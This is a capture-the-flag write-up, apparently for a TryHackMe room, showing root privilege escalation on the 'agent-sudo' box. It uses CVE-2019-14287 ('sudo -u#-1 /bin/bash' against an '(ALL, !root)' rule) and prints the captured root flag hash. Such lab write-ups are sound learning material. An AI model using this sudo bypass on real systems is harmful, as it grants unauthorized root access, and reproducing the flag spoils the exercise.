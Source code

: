 1) I see all the sudo privilegie:
```
james@agent-sudo:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

2)  I thing that  !root its very strange, after ,many searchs, I find a CVE:
https://www.mend.io/resources/blog/new-vulnerability-in-sudo-cve-2019-14287/

3)   CVE number for the escalation?  CVE-2019-14287

4) To spawn the shell of root:   sudo -u#-1 < command>
```
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# whoami
root
```

5) I get the root flag:
```
root@agent-sudo:~# cd /root
root@agent-sudo:/root# ls -all
total 32
drwx------  4 root root 4096 Oct 29  2019 .
drwxr-xr-x 24 root root 4096 Oct 29  2019 ..
-rw-------  1 root root 1952 Oct 29  2019 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwxr-xr-x  3 root root 4096 Oct 29  2019 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root  197 Oct 29  2019 root.txt
drwx------  2 root root 4096 Oct 29  2019 .ssh
root@agent-sudo:/root# cat root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```

6)   (Bonus) Who is Agent R?   DesKel
